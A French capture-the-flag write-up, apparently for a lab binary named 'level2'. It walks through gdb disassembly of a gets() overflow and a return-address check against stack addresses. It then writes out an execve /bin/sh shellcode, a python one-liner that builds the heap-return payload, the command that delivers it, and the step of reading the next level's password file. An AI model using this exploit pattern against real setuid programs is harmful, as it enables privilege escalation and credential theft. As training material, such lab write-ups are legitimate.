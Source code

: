## Comportement
- J'ai des droits `level3` que je peux vérifier en tapant `whoami`
- Un binaire est présent avec des droits différents : `-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2*`
- En exécutant le binaire (`./level2`), on observe:
  - qu'il attend un input de notre part.
  - qu'il print notre input avant de quitter.
  - qu'il segfault `Segmentation fault (core dumped)` si l'input est trop long.

→ Peut-être un segfault à exploiter ?


## Analyse
En analysant le binaire (`gdb ./level2`) on observe:
- La présence d'une fonction `p()` avec un appel a `gets()`. Comme dans l'exercice précédent, la faille se trouve ici. 
  ```shell
  (gdb) disas p
  ...
  0x080484ed <+25>:	call   0x80483c0 <gets@plt>
  ...
  ```
- Une vérification est effectuée pour s'assurer que nous n'écrasons pas l'adresse de retour avec une adresse de la stack.
Notre adresse de retour ne peut pas commencer par le bit 'b' (indiqué par la commande 'and' avec la valeur "0xb0000000"). 
Elle ne peut donc pas pointer vers la stack (plage 0xbf000000 - 0xbfffffff).
  ```shell
  (gdb) disas p
  ...
  0x080484fb <+39>: and eax,0xb0000000
  0x08048500 <+44>: cmp eax,0xb0000000
  ...
  ```
- On constate que le buffer est ensuite copie via la fonction `strdup()`, or elle utilise `malloc()` qui stocke sur la heap et non la stack. 
  ``` 
  (gdb) disas p
  ...
  0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
  ...
  ```


## Résolution
- On applique un shellcode (petit code qui permet d'ouvrir un shell interactif) et l'inscrire sur la heap. 
Trouve [ici] (http://shell-storm.org/shellcode/files/shellcode-575.php). Il est de long de 21 bytes.
  ```shell
  \x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80
  ```
- On overwrite l'adresse de retour en utilisant un pattern generator comme [celui-ci] (https://wiremask.eu/tools/buffer-overflow-pattern-generator/) afin de trouver l'offset de l'`eip`. On voit qu'il est de 80 bytes.
- On ajoute 59 bytes de padding (80 - 21) suivi de l'adresse du buffer dans la heap (`\x08\xa0\x04\x08`). Pour trouver celle ci on `run` le programme sous gdb en mettant un breakpoint après `strdup()`, on observe l’état du registre `eax` puisque `strdup()` y stocke l'adresse du buffer : 
  ```shell
  python -c 'print "\x6a\x0b\x58\x99\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\xcd\x80" + "A" * 59 + "\x08\xa0\x04\x08"' > /tmp/payload
  ```
- On couple l'envoi du payload avec le trick qui permet a stdin de rester open (`- |`).
  ```shell
  cat /tmp/payload - | ./level2
  ```
- Un shell s'ouvre avec de nouveaux privilèges : en effet, si l'on tape `whoami`, on obtient `level3`.
- Il ne reste plus qu'à :
  - récupérer le password (`cat /home/user/level3/.pass`)
  - quitter le shell (`exit`)
  - et passer au level3 (`su level3`) en renseignant ce password.
